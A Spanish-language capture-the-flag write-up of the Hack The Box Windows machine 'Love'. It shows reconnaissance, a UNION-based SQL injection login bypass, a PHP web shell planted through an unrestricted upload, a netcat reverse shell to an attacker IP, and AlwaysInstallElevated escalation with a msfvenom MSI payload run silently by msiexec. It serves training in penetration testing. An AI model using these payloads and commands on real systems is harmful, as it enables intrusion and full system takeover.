








---

# Ficha técnica


| **Campo**                | **Detalle**        |
| ------------------------ | ------------------ |
| **Nombre**               | Love               |
| **Dificultad**           | Fácil (Easy)       |
| **SO**                   | Windows            |
| **Creador**              | pwnmeow            |
| **Fecha de Lanzamiento** | 01 de mayo de 2021 |

## Técnicas empleadas

- **Reconocimiento y Footprinting:** Identificación del objetivo como una máquina Windows 10 mediante análisis de TTL y escaneo exhaustivo de puertos con **Nmap**, descubriendo una superficie de ataque orientada a servicios web (HTTP/HTTPS) y gestión de red (SMB/WinRM).
 
- **Explotación de Lógica de Autenticación:** Ejecución de un **Bypass de Autenticación** en el panel administrativo del software _Voting System_ mediante una inyección SQL basada en `UNION`, permitiendo el secuestro de sesiones administrativas.

- **Remote Code Execution (RCE):** Explotación de una vulnerabilidad de **Arbitrary File Upload** (subida de archivos sin restricciones) para cargar una WebShell en PHP y validar la ejecución de comandos en el contexto del usuario `love\phoebe`.

- **Post-Explotación y Pivoting:** Establecimiento de una **Reverse Shell** interactiva utilizando Netcat, previa verificación de conectividad ICMP y transferencia de binarios mediante protocolos SMB con la suite **Impacket**.

- **Escalada de Privilegios:** Identificación y explotación de una mala configuración en las políticas de Windows (**AlwaysInstallElevated**). Se generó y ejecutó un paquete malicioso `.msi` con **Msfvenom**, logrando el compromiso total del sistema como **NT AUTHORITY\SYSTEM**.

---

# 1. Reconocimiento

---

## Reconocimiento y Conectividad

Para iniciar la fase de reconocimiento, se verificó la conectividad con el objetivo mediante el protocolo **ICMP**, enviando una traza de cuatro paquetes con la herramienta `ping`.

**Ejecución:**

```bash
ping -c 4 10.129.48.103
```

### Análisis del Resultado

El intercambio de paquetes confirmó una conexión estable (0% de pérdida). Basándose en el valor del **TTL (Time To Live)** obtenido, se realizaron las siguientes deducciones técnicas:

- **Sistema Operativo:** El valor reportado de **127** sugiere que el objetivo es una máquina **Windows** (cuyo valor predeterminado es 128).

- **Topología de Red:** La diferencia de una unidad en el TTL indica que existe un nodo intermedio o salto entre el origen y el destino, confirmando que la comunicación no es directa.



---

## Escaneo de puertos (TCP)

Se realizó un escaneo exhaustivo sobre todo el rango de puertos TCP (**65,535**) para identificar servicios expuestos. Para optimizar el tiempo de respuesta sin sacrificar precisión, se utilizó **Nmap** con una tasa de emisión de paquetes alta.

**Comando ejecutado:**

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.48.103
```

### Análisis de resultados

El escaneo reportó **19 puertos abiertos**. Entre los hallazgos más relevantes se identificaron servicios críticos que amplían considerablemente el vector de ataque:

| **Puerto** | **Servicio** | **Relevancia**                                                                                                |
| ---------- | ------------ | ------------------------------------------------------------------------------------------------------------- |
| **80/443** | HTTP/HTTPS   | Posible alojamiento de aplicaciones web y paneles de administración.                                          |
| **445**    | SMB          | Vector potencial para enumeración de usuarios, recursos compartidos o explotación de vulnerabilidades de red. |
| **3306**   | MySQL        | Punto de entrada para ataques de fuerza bruta o extracción de datos si existe una mala configuración.         |



---

# 2. Enumeración

---

## Enumeración de Servicios y Detección de Versiones

Con el listado de puertos abiertos, se procedió a realizar un escaneo dirigido para identificar las versiones específicas de los servicios y ejecutar los scripts de enumeración predeterminados del **Nmap Scripting Engine (NSE)**.

**Comando ejecutado:**

```bash
nmap -p80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670 -sCV 10.129.48.103
```

### Análisis del Objetivo

A través de la información recolectada por los scripts de SMB y los certificados SSL, se confirma:

- **Sistema Operativo:** Windows 10 Pro (Build 19042).
- **Hostname:** `Love`
- **Dominio/Virtual Host identificado:** `love.htb` y el subdominio `staging.love.htb`.

### Hallazgos Principales

| **Puerto**    | **Servicio** | **Versión**         | **Observaciones Técnicas**                                                                                                             |
| ------------- | ------------ | ------------------- | -------------------------------------------------------------------------------------------------------------------------------------- |
| **80**        | HTTP         | Apache httpd 2.4.46 | Aplicación "Voting System using PHP". Se detecta que la cookie `PHPSESSID` no tiene el flag **HttpOnly**, lo que facilita ataques XSS. |
| **443**       | HTTPS        | Apache httpd 2.4.46 | El certificado SSL revela el subdominio **`staging.love.htb`**. Actualmente devuelve un error 403 (Forbidden).                         |
| **445**       | SMB          | Windows 10 Pro      | Message signing habilitado pero no requerido. Útil para posible enumeración de usuarios.                                               |
| **3306**      | MySQL        | MariaDB 10.3.24     | Acceso no autorizado (unauthorized), requiere credenciales.                                                                            |
| **5000**      | HTTP         | Apache httpd 2.4.46 | Devuelve error 403. Podría ser un entorno de desarrollo o backend restringido.                                                         |
| **5985/5986** | WinRM        | Microsoft HTTPAPI   | Puertos de administración remota de Windows. Vector potencial de intrusión si se obtienen credenciales.                                |

---

## Enumeración de Servicios Web

Tras un intento fallido de enumeración en el servicio **SMB** mediante _Null Sessions_, el vector de ataque se redirigió hacia los servicios HTTP expuestos en los puertos 80 y 443.

Como paso previo, se configuró la resolución local de nombres en el archivo `/etc/hosts` para habilitar el acceso a los Virtual Hosts identificados:

```plaintext
10.129.48.103   love.htb staging.love.htb
```

Posteriormente, se ejecutó el motor de scripts de Nmap (**NSE**) con el script `http-enum` para identificar directorios y archivos comunes en el servidor web.

**Comando ejecutado:**

```bash
nmap -p80 --script=http-enum love.htb
```

### Análisis de Directorios Identificados

La ejecución del script reveló diversas rutas de interés que definen la estructura de la aplicación:

| **Directorio / Ruta** | **Estado / Hallazgo** | **Implicación Técnica**                                                                                                                                      |
| --------------------- | --------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `/admin`              | Panel de Login        | Punto crítico para ataques de fuerza bruta o bypass de autenticación.                                                                                        |
| `/includes`           | Scripts PHP internos  | Ruta sensible que almacena la lógica del servidor. Podría ser un vector de ejecución si se logra un **Arbitrary File Upload**.                               |
| `/images`             | Recursos estáticos    | Contiene imágenes de perfil y un archivo inusual: `index.html.txt`. La lectura de este archivo podría revelar código fuente o comentarios del desarrollador. |
| `/icons`              | 404 Not Found         | Directorio estándar de Apache; no presenta información relevante en esta instancia.                                                                          |

---

## Exploración visual del servicio web

Tras la enumeración de directorios, se realizó una inspección visual del servicio web en el puerto 80. Al identificar el software como **"Voting System using PHP"**, se inició una fase de investigación de vulnerabilidades conocidas (1-days) y configuraciones por defecto.

### Identificación del Vector de Ataque

Se utilizó la herramienta `searchsploit` para consultar la base de datos de **Exploit-DB** en busca de vulnerabilidades asociadas a este sistema de votación.

**Comando ejecutado:**

```bash
searchsploit voting system
```

### Análisis del Exploit: SQL Injection (Auth Bypass)

La investigación reveló una vulnerabilidad de **SQL Injection (SQLi)** en el parámetro de autenticación del archivo `/admin/login.php`. El fallo permite realizar un **Authentication Bypass** mediante una técnica de **UNION-Based SQLi**.

Al analizar el código del exploit, se identificó que es posible inyectar un hash de contraseña arbitrario en la memoria de la sesión, engañando a la aplicación para que valide una identidad falsa.

**Payload de Explotación:**

```bash
POST /admin/login.php HTTP/1.1
Host: love.htb
...
login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
```

---

# 3. Explotación (Acceso Inicial)

---

## Explotación web (SQLI - Bypass)

Para ejecutar la *SQLI* se utilizó `Burpsuite` para que actué como proxy intermediario e intercepte la petición, para modificarla antes de ser enviada, Una vez ejecutado el cambió en la petición se procedió a enviarla y apagar el proxy.



### Resultado y análisis del payload

### Desglose Técnico del Payload:

- **`dsfgdf'`**: Cierra la comilla simple de la consulta original.

- **`UNION SELECT`**: Permite combinar los resultados de la consulta legítima con una fila personalizada.

- **Hash Bcrypt**: Se inserta un hash conocido (en este caso, el hash del string `admin`) en la posición de la columna que la aplicación utiliza para validar la contraseña.

- **`INFORMATION_SCHEMA.SCHEMATA`**: Se utiliza para completar la estructura de la consulta `SELECT` requerida por el motor de base de datos.

- **`-- -`**: Comenta el resto de la consulta original para evitar errores de sintaxis.

**Resultado:** Al enviar esta petición, la aplicación compara la contraseña proporcionada (`admin`) con el hash inyectado en el `UNION SELECT`. Debido a que coinciden, el servidor otorga acceso al panel administrativo con privilegios totales.



---

## Descubrimiento de RCE y POC

Una vez obtenido el acceso administrativo, se procedió a auditar las funciones del panel en busca de un vector de ejecución. Se identificó un módulo de gestión de usuarios en `http://love.htb/admin/voters.php` que permitía la carga de imágenes de perfil.

Para validar la seguridad del mecanismo de subida, se intentó cargar un archivo con extensión `.php`. Se confirmó la ausencia de filtros de extensión o validación de _Magic Bytes_ en el servidor. Los archivos cargados se almacenan de forma pública en el directorio `/images/`.



### RCE (Prueba de concepto)

Se cargó un script minimalista para confirmar la ejecución de comandos en el contexto del servidor web:

```php
<?php echo shell_exec("whoami"); ?>
```

**Resultado:** Al acceder al archivo desde el navegador, el servidor ejecutó el comando y devolvió el contexto del usuario actual: **`love\phoebe`**.

---

## Verificación de Conectividad (Outbound Traffic)

Antes de intentar una Reverse Shell, se verificó si el objetivo permitía tráfico saliente hacia la máquina atacante. Esto es fundamental para identificar posibles firewalls o restricciones de red.

1. **Atacante (Escucha ICMP):**

```bash
sudo tcpdump -i tun0 icmp
```

2. **Objetivo (Payload de red):** Se ejecutó un segundo script PHP para forzar una traza de red:

```php
<?php echo shell_exec("ping -n 4 10.10.16.77"); ?>
```

**Resultado:** `tcpdump` registró la llegada de los 4 paquetes ICMP, confirmando una conexión bidireccional estable entre ambas máquinas.



---

## Intrusión (Reverse Shell)

Tras confirmar la ejecución remota de comandos (RCE) y la conectividad saliente, se diseñó un vector de ataque para obtener una shell interactiva estable.

**Metodología de Explotación**

El proceso se dividió en tres fases críticas para asegurar la persistencia del acceso inicial:

1. **Transferencia de Binarios:** Se utilizó el formulario de subida de imágenes en `/admin/voters.php` para cargar el binario **`nc.exe`** (Netcat para Windows) al servidor. Esta técnica permite evadir restricciones de ejecución si el sistema no cuenta con herramientas de red nativas accesibles.

2. **Preparación del Listener:** En la máquina atacante, se configuró un listener para capturar la conexión entrante. Se utilizó el wrapper `rlwrap` para mejorar la interactividad de la shell (historial de comandos y navegación).

```bash
rlwrap nc -nlvp 4444
```

3. **Ejecución del Payload:** Se invocó el binario cargado mediante un script PHP, redirigiendo el flujo de entrada y salida de un proceso `cmd.exe` hacia la dirección IP del atacante.

```PHP
<?php echo shell_exec("nc.exe -e cmd.exe 10.10.16.77 4444"); ?>
```

### Resultado e Intrusión Exitosa

La ejecución del payload fue exitosa, devolviendo una conexión reversa al listener configurado. Se confirmó el acceso al sistema bajo el contexto del usuario **`love\phoebe`**.

Con este nivel de acceso, se procedió a la lectura de la primera bandera de usuario (**user.txt**) localizada en el directorio personal del usuario comprometido.



---
# 4. Post-Explotación 

---

## Escalada de privilegios

Con el acceso inicial como `love\phoebe`, se inició una fase de enumeración interna orientada a la identificación de vectores de elevación de privilegios hacia **NT AUTHORITY\SYSTEM**.

### Enumeración Automatizada

Para agilizar la búsqueda de vectores de ataque locales, se transfirió al objetivo el binario **WinPEASx64.exe**. La transferencia se realizó montando un servidor SMB temporal en la máquina atacante mediante la suite de **Impacket**, permitiendo la copia directa de archivos hacia el directorio `/Temp` de Windows.

**Atacante (Servidor SMB):**

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

**Objetivo (Transferencia y Ejecución):**

```cmd
copy \\10.10.16.77\smbFolder\winPEASx64.exe C:\Windows\Temp\winPEASx64.exe
```

### Análisis del Hallazgo: AlwaysInstallElevated

El reporte de WinPEAS identificó una vulnerabilidad crítica de configuración en el registro de Windows conocida como **AlwaysInstallElevated**. Esta directiva, cuando está habilitada, permite que cualquier usuario instale paquetes de Windows Installer (`.msi`) con privilegios de sistema.

Se confirmaron las siguientes entradas en el registro:

```cmd. HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1

HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 1
```
Para ejecutar la tarea se utilizó *Msfvenom*, para crear un binario malicioso `.msi`, que envió una TTY a través del puerto: `4444`.

---

## Explotación de AlwaysInstallElevated

Para explotar esta vulnerabilidad, se generó un instalador malicioso en formato `.msi` utilizando `msfvenom`. El objetivo del paquete es ejecutar una conexión reversa al ser procesado por el instalador del sistema.

**Generación del Payload:**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.77 LPORT=4444 -f msi -o root.msi
```

### Ejecución y Compromiso Total

Tras transferir el archivo `root.msi` al objetivo mediante el mismo método SMB, se procedió a su ejecución silenciosa utilizando la herramienta nativa `msiexec`.

1. **Atacante (Listener):**

```bash
rlwrap nc -nlvp 4444
```

2. **Objetivo (Ejecución del instalador):**

```cmd
msiexec /quiet /qn /i C:\Windows\Temp\root.msi
```

- `/quiet`: Suprime cualquier interfaz de usuario.
- `/qn`: Especifica que no haya interacción con el usuario.
- `/i`: Indica la instalación del paquete.

### Resultado: NT AUTHORITY\SYSTEM

Debido a la política de registro previamente identificada, el instalador ejecutó el payload con privilegios máximos. Se recibió una conexión reversa confirmando el compromiso total del sistema.

Finalmente, se procedió a la extracción de la bandera de administrador (**root.txt**) localizada en el escritorio del usuario Administrator, completando así la auditoría de la máquina **Love**.



---


